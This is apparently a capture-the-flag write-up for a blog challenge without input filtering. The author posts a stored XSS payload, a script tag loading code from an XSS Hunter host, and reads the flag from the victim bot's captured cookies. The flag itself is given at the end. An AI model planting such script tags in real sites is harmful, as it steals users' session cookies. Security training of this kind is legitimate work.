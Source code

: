 ![](00.png)

The website is a simple blog. We register a user; `test:test` and login.

Then we create a blog post with an `XSS`-payload. This task has no input filtering so a simple payload is enough. I'll use `https://xsshunter.com/app`.

```js
<script src=https://kahari.xss.ht></script>
```

Here we see our post with the hidden `<script>`-tag.

![](01.png)

Now we wait for another user to trigger our payload. After waiting for a bit we get a callback on `https://xsshunter.com/app`:

![](02.png)

The flag can be found in the "Cookies"-section:

![](03.png)

## Flag

```
EPT{I_never_sleep}
```
